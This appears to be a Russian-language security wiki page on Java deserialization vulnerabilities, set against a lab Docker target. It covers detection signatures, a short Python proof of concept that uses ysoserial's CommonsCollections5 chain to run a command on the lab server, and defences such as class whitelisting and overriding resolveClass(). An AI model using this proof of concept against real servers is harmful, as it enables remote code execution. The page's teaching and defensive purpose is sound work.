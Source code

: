 # Deserialization (Java)


# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. 

# Условия

- ОС: любая
- язык: Java
- компоненты: уязвимые библиотеки Java
- настройки: зависят от библиотеки

# Детектирование

Необходимо искать данные, которые начинаются с "AC ED 00 05" или "RO0" в случае Base64.  В header может быть указан "application/x-java-serialized-object".

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере. При этом вылетит ошибка согласования типов, однако код всё равно запустится. 



# Защита

1. Не десериализовать объекты из недоверенных источников.
2. Запретить пользователям загрузку объектов для десериализации.
3. Своевременно обновлять библиотеки.
4. Использовать белый лист для классов десериализуемых объектов. 
5. Переопределить метод resolveClass().

При чтении потока сериализованному объекту предшествует описание класса. Эта структура позволяет  реализовать свой собственный алгоритм чтения описания класса и в зависимости от имени класса решать, следует ли продолжить чтение потока. Для этого можно использовать переопределение  метода resolveClass(). Его можно использовать для выдачи исключения всякий раз, когда поток содержит неожидаемый класс. Таким образом exception выдаётся до того, как объект начинает десериализовываться. 

# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере. 

# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html
- https://docstore.mik.ua/orelly/java-ent/security/ch02_01.htm#SEC-CH-2-SECT-1.1
- https://www.ibm.com/developerworks/ru/library/se-lookahead/index.html
